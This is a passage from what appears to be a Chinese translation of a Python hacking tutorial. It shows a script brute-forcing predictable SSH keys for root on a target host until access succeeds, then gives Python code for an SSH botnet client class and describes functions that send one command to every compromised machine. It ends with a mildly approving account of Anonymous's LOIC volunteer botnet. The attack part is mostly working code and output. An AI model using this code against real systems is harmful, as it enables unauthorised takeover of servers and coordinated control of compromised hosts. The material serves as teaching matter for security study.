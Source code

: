测试目标主机，我们能看到我们获得了漏洞系统的访问权限。如果 1024 位的密钥没用，尝试下载 2048 位的密钥，用同样的方式使用。

```py
attacker# python bruteKey.py -H 10.10.13.37 -u root -d dsa/1024
[-] Testing keyfile tmp/002cc1e7910d61712c1aa07d4a609e7d-16764
[-] Testing keyfile tmp/00360c749f33ebbf5a05defe803d816a-31361
<..SNIPPED..>
[-] Testing keyfile tmp/002dcb29411aac8087bcfde2b6d2d176-27637
[-] Testing keyfile tmp/003e792d192912b4504c61ae7f3feb6f-30448
[-] Testing keyfile tmp/003add04ad7a6de6cb1ac3608a7cc587-29168
[+] Success. tmp/002dcb29411aac8087bcfde2b6d2d176-27637
[-] Testing keyfile tmp/003796063673f0b7feac213b265753ea-13516
[*] Exiting: Key Found. 
```

## 构建 SSH 的僵尸网络

现在我们已经可以通过 SSH 控制一个主机，让我们扩大它同时控制多台主机。攻击者经常利用一系列的被攻击的主机来进行恶意的行动。我们称这是僵尸网络，因为这些脆弱的电脑的行为像僵尸一样执行命令。为了构建我们的僵尸网络，我们将引入一个新的概念---`class`。`class` 的概念作为面向对象编程的基础命名。在这个系统中，我们实例化与方法相关联的对象。为了我们的僵尸网络，每个僵尸或者客户机都要求有连接和发送命令的能力。

```py
# coding=UTF-8
import optparse
import pxssh
class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()
    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] Error Connecting')
    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before 
```

检查代码生成的类对象`Clinet()`。为了建立客户机，我们需要主机名，用户名，密码或者密钥。此外，类包含的方法要能支持一个客户端---`connect()`,`sned_command()`, `alive()`。注意，当我们引入一个变量时，它属于类，我们通过`self` 来引用这个变量。为了构建僵尸网络，我们建立了一个全局的数组名字为`botnet`,这个数组包含了所有的连接对象。接下来，我们建立一个方法，名字为`addClient()`接受主机名，用户名和密码为参数，实例化一个连接对象然后将它添加到`botnet` 数组中。下一步，`botnetCommand()`方法接受命令参数，这个方法遍历数组的每一个连接，给每一个连接的客户机发送命令。

## 自愿的僵尸网络

黑客组织 Anonymous，通常采用自愿的僵尸网络来攻击他们的敌人。为了攻击的最大限度，这个还可组织要求他们的成员下载一个名为 LOIC 的工具。作为一个集体，这个黑客组织的成员发动一个分布式的僵尸网络攻击来攻击他们的目标。虽然是非法的，Anonymous 组织的的行为已经取得了一些引人注意的和到得上的胜利成果。在最近的一个操作中，通过操作黑暗网络，Anonymous 利用自愿的僵尸网络淹没了致力于传播儿童情色资源的网络主机。
